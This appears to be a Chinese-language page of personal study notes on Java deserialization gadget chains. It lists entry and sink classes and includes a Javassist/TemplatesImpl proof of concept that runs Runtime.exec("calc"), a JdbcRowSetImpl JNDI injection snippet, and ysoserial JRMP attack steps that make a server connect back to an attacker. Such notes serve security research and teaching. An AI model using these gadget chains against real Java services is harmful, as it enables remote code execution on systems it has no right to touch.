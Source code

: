 # java gadget

> 介绍的java gadget都是自己分析组件遇到的。。

## 简单介绍
反序列化过程==将字节流还原成对象实例的过程

反序列化过程==创建空对象+设置对象属性的过程（readObject()函数负责）

反序列化过程==**类的加载+创建对象+调用readObject**

hint:

Externalizable接口是serializable子类。其中有readExternal方法和writeExternal方法。

实现了Externalizable接口，在其反序列化的时候会触发readExternal。


## 思路
Java序列化 基本上找readobject 然后看里面的方法和我们可以控制的参数基本上参数是通过构造方法获得的，然后利用方法去触发下一个方法。或者是利用代理触发invoke方法需要满足代码东西实现invokeHaeder方法。

## readobject

```java
AnnotationInvocationHandler
HashMap#hashCode
PriorityQueue
Hashtable
HashSet  
BadAttributeValueExpException

C3P0
PoolBackedDataSourceBase

Vaadin
NestedMethodProperty

FileUpload
DiskFileItem
```

## invoke代理

```
AnnotationInvocationHandler
AnnotationInvocationHandler#equalsImpl
```

## 危险类

```
InvokerTransformer#transform
InstantiateTransformer#transform
BeanComparator#compare
PropertyUtils.getProperty(new CBtest(),"name");//调用get方法 getName
```

TemplatesImpl

```java
我们从TransletClassLoader#defineClass()向前追溯一下调用链：

TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()

追到最前面两个方法TemplatesImpl#getOutputProperties()、TemplatesImpl#newTransformer()，这两者的作用域是public，可以被外部调用。我们尝试用newTransformer()构造一个简单的POC...
    

#无参数的invoke
ReflectionUtils.invokeMethod(newTransformer, TemplatesImpl);

TemplatesImpl.getOutputProperties()
  TemplatesImpl.newTransformer()
  	TemplatesImpl.getTransletInstance()
  		TemplatesImpl.defineTransletClasses()
  			TransletClassLoader.defineClass()
  			
        
利用代码
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); 
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "name");
setFieldValue(templates, "_class", null);
ObjectBean objectBean = new ObjectBean(Templates.class,templates);

public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
    final Field field = getField(obj.getClass(), fieldName);
    field.setAccessible(true);
    field.set(obj, value);
}
public static Field getField(final Class<?> clazz, final String fieldName) {
    Field field = null;
    try {
        field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
    }
    catch (NoSuchFieldException ex) {
        if (clazz.getSuperclass() != null)
            field = getField(clazz.getSuperclass(), fieldName);
    }
    return field;
}
```

AnnotationInvocationHandler

```java
ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				AnnotationInvocationHandler.invoke() (Proxy)
 							invoke

 
entrySet
AnnotationInvocationHandler 反序列化时调用 memberValues 中存放对象的 entrySet 对象

Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = c.getDeclaredConstructors()[0];
constructor.setAccessible(true);
// 创建 ConvertedClosure 的动态代理类实例
Map handler = (Map) Proxy.newProxyInstance(Class.class.getClassLoader(), new Class[]{Map.class}, closure);
// 使用动态代理初始化 AnnotationInvocationHandler
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, handler);
```

JdbcRowSetImpl

```java
可以jndi注入

JdbcRowSetImpl rs = new JdbcRowSetImpl();
rs.setDataSourceName("ldap://127.0.0.1:2333/test");
Method method = JdbcRowSetImpl.class.getDeclaredMethod("getDatabaseMetaData");

jndi注入利用流程
1.当客户端程序中调用了InitialContext.lookup(url),并且url可以被输入控制指向精心构造好的rmi服务地址/ldap服务
2.恶意的rmi服务会向受攻击的客户端返回一个Refernce,用于获取恶意的Factory类
3.当客户端执行了lookup()时，会对恶意的Factory类进行加载并实例化，通过factory.getObjectInstance()获取外部远程对象实例
4.攻击者在Factory类文件的构造方法，静态代码块，getObjectInstance()方法等处写入恶意代码，达到远程代码执行效果。
```

HashMap

```
HashMap<Object, Object> map = new HashMap<>();
map.put(expression, "");
map.put("", "");

// 先放入带有无害的 ValueExpression，put 到 map 之后再反射写入 valueExpression 字段避免触发
Field field1 = expression.getClass().getDeclaredField("valueExpression");
field1.setAccessible(true);
field1.set(expression, valueExpression);
```

HashSet
    
```
HashSet hashSet = new HashSet(1);
hashSet.add(entry);
```

BadAttributeValueExpException 触发toString
```
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("");
Field valField = BadAttributeValueExpException.class.getDeclaredField("val");
valField.setAccessible(true);
valField.set(badAttributeValueExpException,xxxxx);
```


## 写文件

aspectjweaver组件

```
SimpleCache#put
```

## class.forname

这里我们使用com.sun.org.apache.bcel.internal.util.ClassLoader这个动态加载器。这个classloader允许传入经过BCEL编码的字节码内容(className),所以我们对恶意类的字节码进行BCEL编码,赋给className,classloader指定为这个加载器，调用class.forname(className, true, classloader)就会加载恶意类的静态代码块中的代码

## java内省

```
getReadMethod()，获得用于读取属性值的方法；getWriteMethod()，获得用于写入属性值的方法;

简单的说安全问题就是可以调用set和get方法

com.sun.syndication.feed.impl#ToStringBean
PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
 Method pReadMethod = pds[i].getReadMethod();
 Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
```
### ysoserial exploit/JRMPClient

```
1、exploit/JRMPClient与exploit/RMIRegistryExploit类似，可以攻击任何RMIServer，但exploit/JRMPClient是通过dgc通信进行攻击，
而exploit/RMIRegistryExploit是通过bind方法绑定恶意payload进行攻击。

2、exploit/JRMPClient可以结合payloads/JRMPListener进行攻击，但exploit/RMIRegistryExploit不能结合payloads/JRMPListener进行攻击

3、JEP 290之后，对RMI注册表和分布式垃圾收集（DGC）新增了内置过滤器，以上攻击方式均失效了。
```
###  ysoserial exploit/JRMPListener

```
1、攻击方在自己的服务器使用exploit/JRMPListener开启一个rmi监听

2、往存在漏洞的服务器发送payloads/JRMPClient，payload中已经设置了攻击者服务器ip及JRMPListener监听的端口，
漏洞服务器反序列化该payload后，会去连接攻击者开启的rmi监听，在通信过程中，攻击者服务器会发送一个可执行命令的payload
（假如存在漏洞的服务器中有使用org.apacje.commons.collections包，则可以发送CommonsCollections系列的payload），从而达到命令执行的结果。
```
